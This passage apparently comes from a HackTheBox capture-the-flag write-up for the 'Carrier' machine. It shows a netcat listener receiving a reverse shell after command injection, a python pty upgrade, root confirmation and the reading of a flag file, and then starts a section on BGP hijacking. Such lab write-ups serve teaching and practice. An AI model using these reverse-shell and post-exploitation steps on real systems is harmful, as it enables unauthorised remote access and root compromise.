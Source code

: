 ![RCE](/assets/images/htb-writeup-carrier/injection.png)

We then get a reverse shell using netcat:

```
root@violentunicorn:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.105] 48918
/bin/sh: 0: can't access tty; job control turned off
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@r1:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@r1:~# ls
ls
test_intercept.pcap  user.txt
root@r1:~# cat user.txt
cat user.txt
5649c4...
```

### BGP hijacking

So, there's a user on AS200 connecting to a server on the 10.120.15.0/24 network (the server is 10.120.15.10, which is the IP address of the lxdbr1 interface on the host OS). We can't initially see his traffic because the traffic is sent directly from AS200 to AS300 (we are on AS100).
